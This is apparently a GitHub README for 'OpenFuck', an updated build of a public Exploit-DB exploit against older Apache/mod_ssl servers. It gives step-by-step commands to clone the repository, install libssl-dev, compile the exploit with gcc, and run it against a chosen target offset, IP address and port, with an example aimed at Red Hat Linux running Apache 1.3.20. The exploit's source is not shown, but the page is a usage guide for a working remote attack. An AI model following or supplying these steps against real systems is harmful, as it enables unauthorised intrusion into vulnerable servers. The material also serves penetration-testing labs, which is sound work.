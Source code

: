 # OpenFuck
## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take an updated  

1. Download OpenFuck.c
'''
git clone https://github.com/heltonWernik/OpenFuck.git
'''
2. Install ssl-dev library
'''
apt-get install libssl-dev
'''
3. It's Compile Time
'''
gcc -o OpenFuck OpenFuck.c -lcrypto
'''
4. Running the Exploit
'''
./OpenFuck
'''
5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a option ….
./OpenFuck 0x6a [Target Ip] [port] -c 40
for example:
'''
./OpenFuck 0x6a 192.168.80.145 443 -c 40
'''

References:
https://kongwenbin.wordpress.com/tag/openfuck/
https://medium.com/@javarmutt/how-to-compile-openfuckv2-c-69e457b4a1d1
